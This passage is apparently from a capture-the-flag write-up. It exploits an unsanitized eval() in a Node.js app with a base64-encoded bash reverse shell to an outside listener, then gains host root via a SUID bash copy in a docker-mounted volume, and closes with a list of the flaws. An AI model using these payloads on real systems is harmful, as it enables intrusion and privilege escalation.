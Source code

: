 ```python
response = session.post(url+endpoint, headers=headers, data=payload, stream=True) 
for chunk in response.iter_content(chunk_size=10 * 1024):
    print(chunk)
```

We used the following exploit:

```
Listener: nc -lvnp 4242
echo "bash -i >& /dev/tcp/10.8.165.253/4242 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjE2NS4yNTMvNDI0MiAwPiYxCg==

echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjE2NS4yNTMvNDI0MiAwPiYxCg==" | base64 -d | bash

Final exploit: arguments[1].end(require('child_process').execSync('echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjE2NS4yNTMvNDI0MiAwPiYxCg==" | base64 -d | bash'))

```

![](exploited.png)

Once we get a shell inside the docker we notice that we are root.
This was the final piece to exploit the flaw in the misconfigured docker volume.
In order to gain root in the actual machine we run the following commands:

```
cp /bin/bash ~/timeTracker-src/logs #Machine as claire-r
chown root:root bash #container as root
chmod 4777 bash #container as root
~/timeTracker-src/logs/bash -p #Machine as claire-r 
```

What is done here is making a copy of the bash binary and and give it SUID.
Since the user in the container(root) applies the modifications to the files with his id(0), we are essentially root in that specific directory that is mounted in docker.

## Flaws

- Docker registry exposed without authentication
- Environment variables with hardcoded credentials
- Eval() function without sanitization
- Web application running as root inside docker container
- Mounted volume with read/write access to a non privileged user
